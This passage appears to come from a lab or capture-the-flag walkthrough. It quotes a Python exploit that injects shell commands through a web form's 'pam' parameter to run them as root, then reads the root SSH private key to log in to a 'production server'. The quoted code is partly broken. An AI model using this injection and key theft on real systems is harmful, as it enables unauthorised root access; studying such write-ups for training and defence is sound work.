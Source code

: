 The exploit takes advantage of a bad check of the ‘pam’ parameter to
execute commands as root.
```
def exploit(target, port, url, command):
header = 'Referer: )
payload = 'user=gotroot&amp;pam=&amp;expired=2|echo "";{}'.format(command)
os.system("curl -k {} -d '{}' -H '{}'".format(url,payload,header))
```
‘pam’ is left blank.

Using this functionality, the private SSH key can be found in
**/root/.ssh/id_rsa**


![exploit](/assets/img/wreath-writeup/id_rsa.png)


The private key provides access to the production server as **root** via
SSH.


![ssh](/assets/img/wreath-writeup/ssh.png)
